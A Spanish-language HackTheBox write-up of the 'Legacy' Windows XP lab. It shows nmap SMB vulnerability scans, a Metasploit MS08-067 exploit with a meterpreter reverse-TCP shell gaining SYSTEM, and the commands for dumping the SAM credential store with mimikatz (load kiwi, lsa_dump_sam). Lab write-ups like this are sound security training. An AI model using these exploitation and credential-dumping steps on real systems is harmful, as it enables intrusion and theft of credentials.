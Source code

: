 ```yaml
---
layout: post
title : "Legacy - HackTheBox"
author : elc4br4
image : /assets/images/HTB/Legacy-HackTheBox/Legacy.jpg
optimized_image : /assets/images/HTB/Legacy-HackTheBox/Legacy.jpg
tags : [ Windows, HackTheBox ]
description : 👽Esta vez resolveré una máquina Windows nivel Easy de la plataforma HackTheBox, en la que aprovecharemos una vulnerabilidad del protocolo samba para ganar acceso a la máquina con privilegios máximos👽.
---
```


Esta vez resolveré una máquina Windows nivel Easy de la plataforma HackTheBox, en la que aprovecharemos una vulnerabilidad del protocolo samba para ganar acceso a la máquina con privilegios máximos.

Como siempre comenzaremos lanzando un escaneo nmap para descubrir puertos abiertos en la máquina.

```ruby
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 5d00h27m38s, deviation: 2h07m17s, median: 4d22h57m37s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:ee:27 (VMware)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2023-06-30T02:01:21+03:00
```

Y como vemos tenemos el puerto 445 (smb) abierto.

* Y podemos ver que estamos ante un Windows XP.

Al ver esto lanzaré una serie de scripts de nmap para comprobar si es vulnerable.

Para revisar los script de nmap solo debemos ir a esta ruta `/usr/share/nmap/scripts`

Ahí encontraremos todos los scripts que nos ofrece nmap.

En mi caso realizaré un filtrado para buscar solo los del servicio smb.

```ruby
locate .nse | grep smb-vuln
```

![](/assets/images/HTB/Legacy-HackTheBox/smb-vuln.webp)

Ahí tenemos los scripts que vamos a usar para el escaneo, por lo que ya solo queda lanzar el escaneo.

```ruby
nmap --script "smb-vuln*" -p445 10.10.10.4
------------------------------------------
Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms10-054: false

```

Si nos fijamos bien podemos ver la siguiente información.

```bash
smb-vuln-ms08-067: 
 VULNERABLE
smb-vuln-ms17-010:
 VULNERABLE
```

Nos indica que es vulnerable a ms08-067 y a ms17-010 (eternalblue).

Pero en este caso tras haber probado, podemos dar por hecho que es un falso positivo y que no es vulnerable a eternalblue.

Por lo que solo nos quedaría probar si es vulnerable a ms08-067.

Esto lo haré a través de metasploit.

Abro metasploit y busco el exploit correspondiente.

![](/assets/images/HTB/Legacy-HackTheBox/msf1.webp)

Tras encontrarlo lo selecciono y lo configuro con los parámetros necesarios.

```ruby
msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms08_067_netapi) > options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.87.128   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting

msf6 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4

msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST tun0
LHOST => tun0
```

Una vez configurado lo lanzamos con el comando `exploit` y ganaremos acceso a la máquina.

```ruby
msf6 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 10.10.14.27:4444
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175686 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.27:4444 -> 10.10.10.4:1032) at 2023-06-24 23:11:05 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 1628 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
```

Como podemos ver hemos ganado acceso y somos el usuario Administrador, por lo que tenemos privilegios y podemos leer las flag de user y root.

Máquina pwneada.

De forma adicional podemos dumpear la SAM haciendo uso de mimikatz a través de meterpreter.

Dentro de la sesión meterpreter ejecutamos el comando `load kiwi` y se nos ejecutará el mimikatz.

![](/assets/images/HTB/Legacy-HackTheBox/kiwi.webp)

Y una vez cargado ejecutamos `lsa_dump_sam` y nos dumpeará la SAM.

![](/assets/images/HTB/Legacy-HackTheBox/SAM.webp)
